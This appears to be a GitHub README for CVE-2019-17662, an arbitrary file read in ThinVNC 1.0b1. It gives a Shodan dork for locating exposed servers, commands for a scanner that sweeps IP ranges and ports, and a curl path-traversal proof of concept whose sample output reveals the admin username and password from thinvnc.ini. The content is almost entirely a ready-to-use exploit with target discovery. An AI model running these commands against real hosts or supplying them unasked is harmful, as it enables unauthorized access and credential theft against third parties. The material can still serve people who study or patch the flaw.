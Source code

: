 ## CVE-2019-17662
![](https://img.shields.io/static/v1?label=Product&message=ThinVNC&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=1.0b1&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Arbitrary%20File%20Read&color=red)


- Shodan dork:
```
"ThinVNC"
```
or
```
pip install argparse colorama
```
```
python scanner.py ip_cidr_list_file 80 -o results.txt
```
```
python scanner.py ip_cidr_list_file 80,8080-8090 -o results.txt
```
```
python scanner.py 192.168.1.1/24 80,82-85,8080-8090 -o results.txt
```
- POC:
```
curl -k -X 'GET' "http://target_ip_address:port/a/\../\../thinvnc.ini"
	  
Response:
[Authentication]
Unicode=0
User=admin
Password=admin
Type=Digest
[Http]
Port=8080
Enabled=1
[Tcp]
Port=
[General]
AutoStart=1
```
